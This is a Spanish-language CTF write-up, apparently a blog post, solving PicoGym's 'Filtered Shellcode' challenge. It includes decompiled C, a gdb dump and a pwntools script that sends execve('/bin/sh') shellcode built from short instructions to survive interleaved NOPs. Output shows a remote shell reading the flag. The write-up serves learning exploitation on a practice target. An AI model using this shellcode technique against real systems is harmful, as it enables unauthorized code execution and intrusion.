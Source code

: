 ```yaml
---
layout: post
title: Filtered Shellcode PicoGym
comments: true
categories: [Pwn, Writeups, PicoCTF]
---
```


En este post estaremos resolviendo un reto del [PicoGym](https://play.picoctf.org/practice/challenge/184).

<br>
![Image]({{ site.baseurl }}/images/posts/picoGym/pico_logo.png){:width="200px"}

# Reconocimiento

  > A program that just runs the code you give it? That seems kinda boring...

Como dice el enunciado, el programa ejecuta todo lo que se le pasa como entrada.

```c
int main(void)
{
  int input_char;
  char code_buffer [1000];
  char current_char;
  uint code_length;
  undefined *stack_pointer_backup;
  
  stack_pointer_backup = &stack0x00000004;
  setbuf(_stdout,(char *)0x0);
  code_length = 0;
  current_char = 0;

  puts("Give me code to run:");
  input_char = fgetc(_stdin);
  current_char = (char)input_char;

  // Leer caracteres hasta salto de línea o hasta llenar el buffer
  for (; (current_char != '\n' && (code_length < 1000)); code_length = code_length + 1) {
    code_buffer[code_length] = current_char;
    input_char = fgetc(_stdin);
    current_char = (char)input_char;
  }

  // Agrega bytes de relleno (0x90 = instrucción NOP en x86)
  if ((code_length & 1) != 0) {
    code_buffer[code_length] = -0x70;
    code_length = code_length + 1;
  }
  execute(code_buffer,code_length);
  return 0;
}
```

Si probamos con un shellcode y ejecutamos con gdb vemos la pesadilla de cualquier programador:

```bash
(gdb) x/40xw $esp
0xffe377cc:     0x080485cb      0x9090e589      0x9090c0da      0x909075d9
0xffe377dc:     0x90905bf4      0x90905953      0x90904949      0x90904949
0xffe377ec:     0x90904949      0x90904949      0x90904949      0x90904343
0xffe377fc:     0x90904343      0x90904343      0x90905137      0x90906a5a
0xffe3780c:     0x90905841      0x90903050      0x90903041      0x90906b41
0xffe3781c:     0x90904141      0x90903251      0x90904241      0x90904232
0xffe3782c:     0x90903042      0x90904242      0x90904241      0x90905058
0xffe3783c:     0x90904138      0x90907542      0x9090494a      0x90905a73
0xffe3784c:     0x90906b46      0x90903856      0x9090494d      0x90906273
0xffe3785c:     0x90905633      0x90903855      0x90906d44      0x90907351
```

Se están introduciendo instrucciones `0x90` (NOP) cada dos bytes.

## Explotación

Para explotar el binario tendremos que crear un payload con instrucciones de 1 ó 2 bytes para que al introducir los NOP, no se rompa. En pwntools quedaría así:

```python
#!/usr/bin/python3
from pwn import *

context.binary = exe = ELF('./fun', checksec=False)
# Para local testing:
# p = process(exe.path)
# Para servidor remoto:
p = remote('mercury.picoctf.net', 35338)

# Shellcode de 2-byte instructions con NOPs intermedios
shellcode = asm('''
    xor eax, eax            ; limpiar eax
    push eax                ; NULL
    push eax                ; NULL, para terminar /bin/sh
    mov edi, esp            ; edi apunta al stack

    ; construir /bin/sh byte por byte en [edi]
    mov al, 0x2f            ; '/'
    add [edi], al
    inc edi
    nop

    mov al, 0x62            ; 'b'
    add [edi], al
    inc edi
    nop

    mov al, 0x69            ; 'i'
    add [edi], al
    inc edi
    nop

    mov al, 0x6e            ; 'n'
    add [edi], al
    inc edi
    nop

    mov al, 0x2f            ; '/'
    add [edi], al
    inc edi
    nop

    mov al, 0x73            ; 's'
    add [edi], al
    inc edi
    nop

    mov al, 0x68            ; 'h'
    add [edi], al
    inc edi
    nop

    ; preparar syscall: execve("/bin/sh", 0, 0)
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx
    mov al, 0xb             ; syscall execve
    mov ebx, esp            ; puntero a "/bin/sh"
    int 0x80
''')

# Enviar shellcode
p.sendline(shellcode)

# Interactuar con la shell
p.interactive()
```

```bash
❯ python solver.py
[+] Opening connection to mercury.picoctf.net on port 35338: Done
[*] Switching to interactive mode
Give me code to run:
$ ls
flag.txt
fun
fun.c
xinet_startup.sh
$ cat flag.txt
picoCTF{<REDACTED>}
```

<br>